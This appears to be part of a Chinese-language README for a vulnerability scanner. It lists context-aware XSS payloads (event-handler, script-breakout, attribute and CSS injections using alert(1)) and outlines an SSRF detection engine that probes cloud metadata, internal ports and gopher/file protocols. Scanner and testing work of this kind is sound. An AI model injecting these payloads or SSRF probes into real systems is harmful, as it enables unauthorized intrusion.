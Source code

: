 #### 智能 Payload 生成
```javascript
// 上下文感知 Payload 生成
const contextAwarePayloads = {
    "html_context": [
        "<img src=x onerror=alert(1)>",
        "<svg onload=alert(1)>",
        "<details open ontoggle=alert(1)>"
    ],
    "javascript_context": [
        "';alert(1);//",
        "\";alert(1);//", 
        "`;alert(1);//"
    ],
    "attribute_context": [
        "\" onmouseover=\"alert(1)",
        "' onmouseover='alert(1)",
        "javascript:alert(1)"
    ],
    "css_context": [
        "expression(alert(1))",
        "url(javascript:alert(1))",
        "@import 'javascript:alert(1)'"
    ]
};
```

---

### 3. 🌐 SSRF Detection Engine  

**位置**: `services/features/function_ssrf/` & `services/features/function_ssrf_go/`  
**核心架構**: Python + Go 雙引擎  
**語言**: Python (主檢測) + Go (高效能掃描)

#### 雙語言架構優勢
- **Python 引擎**: 複雜邏輯處理、AI 智能分析、結果關聯
- **Go 引擎**: 高併發掃描、雲端服務探測、效能關鍵任務

#### 檢測技術棧
```python
# SSRF 檢測策略
ssrf_detection_strategies = {
    "internal_service_probe": "內部服務探測",
    "cloud_metadata_access": "雲端中繼資料存取",
    "port_scanning": "內網端口掃描",
    "protocol_exploitation": "協議利用 (file://, gopher://)",
    "dns_rebinding": "DNS 重綁定攻擊",
    "http_parameter_pollution": "HTTP 參數污染"
}
```
